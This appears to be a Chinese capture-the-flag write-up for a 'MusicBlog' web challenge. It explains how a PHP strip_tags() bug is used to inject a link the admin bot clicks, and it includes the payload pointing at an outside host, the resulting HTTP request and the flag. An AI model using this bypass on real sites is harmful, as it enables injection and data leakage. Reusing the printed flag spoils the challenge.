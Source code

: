 # MusicBlog

這題還蠻有趣的

題目: 可以新增文章，內容可以帶`<audio>`標籤，然後可以選擇要不要讓 admin 按 like

由於輸入內容會過 `strip_tags()`，而且各種 XSS header 都有設好

加上看到 bot 會去對 `id=like` 的元素 click

所以方向就很明顯是去做 click jacking

<br>

難點在於 `strips_tags` 讓我們很難插入 `<audio>` 以外的標籤

而 `<audio>` 的 `on*` 系列的 event 都會被 CSP 擋，這條路也不通

最後目標放到 `strip_tags()` 上

搜了一下，發現這個 php 版本的 `strip_tags()` 有 bug:

https://bugs.php.net/bug.php?id=78814

所以最後只要

`<a/udio id="like" href="http://kaibro.tw:9487">zzxc</a>`

就能拿到 flag:

```
GET / HTTP/1.1
Host: kaibro.tw:9487
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: zer0pts{M4sh1m4fr3sh!!}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://challenge/post.php?id=c8e7da47-b470-48b7-91cc-8bce3fd45cc3
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```
